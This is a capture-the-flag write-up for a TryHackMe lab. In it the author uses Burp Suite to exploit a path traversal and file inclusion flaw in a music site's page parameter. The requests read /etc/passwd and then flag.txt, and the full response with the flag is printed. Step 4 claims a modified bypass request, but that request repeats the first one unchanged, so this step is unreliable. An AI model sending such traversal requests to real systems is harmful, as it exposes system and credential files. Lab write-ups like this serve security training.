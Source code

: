 
Want to hear some lo-fi beats, to relax or study to? We've got you covered! 

  

**Access this challenge** by deploying both the vulnerable machine by pressing the green "Start Machine" button located within this task, and the TryHackMe AttackBox by pressing the  "Start AttackBox" button located at the top-right of the page.

Navigate to the following URL using the AttackBox: [http://10.10.24.17](http://10.10.24.17) and find the flag in the **root of the filesystem.**


## Writeup

1) I opened Burp-suite and immediately launched the browser in the **proxy** tab.
2) I pasted the Lab's link and intercepted it .
3) Then i chose a GET request : 

```Request in Proxy
GET /?page=../../../etc/passwd HTTP/1.1
Host: 10.10.24.17
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.86 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.10.24.17/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

```

4) Then I sent that **GET Request** to the repeater for tweaking it a bit. This time, since we cant use traversal sequence, as it seems the developers blocked it, we still have a way to bypass the absolute path. Here is what i changed:


```Request in Repeater
GET /?page=../../../etc/passwd HTTP/1.1
Host: 10.10.24.17
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.86 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.10.24.17/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
```


5) It successfully showed me the files in the `passwd` directory. 

6) But I needed to reach the flag.txt file which was in the root directory, after a long time , i finally cleared up after watching the write-up video, I just had to:

```Request in Repeater
GET /?page=../../../flag.txt HTTP/1.1
Host: 10.10.24.17
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.86 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.10.24.17/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
```

7) Looks so simpleeee, I feel dumb for not figuring this one out myself.

8) And ofcourse I got the flag:

```html
HTTP/1.1 200 OK
Date: Sat, 18 Jan 2025 15:23:44 GMT
Server: Apache/2.2.22 (Ubuntu)
Vary: Accept-Encoding
Content-Length: 3915
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html

<!DOCTYPE html>
<html lang="en">

<head>

    <meta charset="utf-8">
    <meta name="viewport" content="width=device-width, initial-scale=1, shrink-to-fit=no">

    <link rel="stylesheet" href="https://stackpath.bootstrapcdn.com/bootstrap/4.5.0/css/bootstrap.min.css"
        integrity="sha384-9aIt2nRpC12Uk9gS9baDl411NQApFmC26EwAOH8WgZl5MYYxFfc+NcPb1dKGj7Sk" crossorigin="anonymous">

    <style>
        body {
            padding-top: 56px;
            padding-bottom: 56px;
            min-height: 100vh;
            position: relative;
        }
        .footer {
            bottom: 0;
            width: 100%;
            position: absolute;
            height: 56px;
        }
    </style>

    <title>Lo-Fi Music</title>
</head>

<body>

    <!-- Navigation -->
    <nav class="navbar navbar-expand-lg navbar-dark bg-dark fixed-top">
        <div class="container">
            <a class="navbar-brand" href="/">Lo-Fi Music</a>
            <button class="navbar-toggler" type="button" data-toggle="collapse" data-target="#navbarResponsive"
                aria-controls="navbarResponsive" aria-expanded="false" aria-label="Toggle navigation">
                <span class="navbar-toggler-icon"></span>
            </button>
            <div class="collapse navbar-collapse" id="navbarResponsive">
            </div>
        </div>
    </nav>

    

        <!-- Page Content -->
    <div class="container">

        <div class="row">

            <!-- Blog Entries Column -->
            <div class="col-md-8">

                <h1 class="my-4">Cool beats to listen to</i></h1>


                <!-- Blog Post -->
                <div class="card mb-4">
					<div class="card-body">


						flag{e4478e0eab69bd642b8238765dcb7d18}                	</div>
                </div>

            
            </div>

            <!-- Sidebar Widgets Column -->
            <div class="col-md-4">

                <!-- Search Widget -->
                <div class="card my-4">
                    <h5 class="card-header">Search</h5>
                    <div class="card-body">
                        <form action="/" method="get">
                            <div class="input-group">
                                <input type="text" class="form-control" name="search" placeholder="Search for...">
                                <span class="input-group-btn">
                                    <button class="btn btn-secondary" type="submit">Go!</button>
                                </span>
                            </div>
                        </form>
                    </div>
                </div>

                <!-- Categories Widget -->
                <div class="card my-4">
                    <h5 class="card-header">Discography</h5>
                    <div class="card-body">
                        <div class="row">
                            <div class="col-lg-6">
                                <ul class="list-unstyled mb-0">
                                    <li><a href="/?page=relax.php">Relax</a></li>
                                    <li><a href="/?page=sleep.php">Sleep</a></li>
									<li><a href="/?page=chill.php">Chill</a></li>    
									<li><a href="/?page=coffee.php">Coffee</a></li>
									<li><a href="/?page=vibe.php">Vibe</a></li>
									<li><a href="/?page=game.php">Game</a></li>
                                </ul>
                            </div>
                        </div>
                    </div>
                </div>

            </div>
        </div>
        <!-- /.row -->
    </div>
    <!-- /.container -->


    <!-- Footer -->
    <footer class="py-3 bg-dark footer">
        <div class="container">
                &nbsp;
        </div>
        <!-- /.container -->
    </footer>


</body>

</html>
```



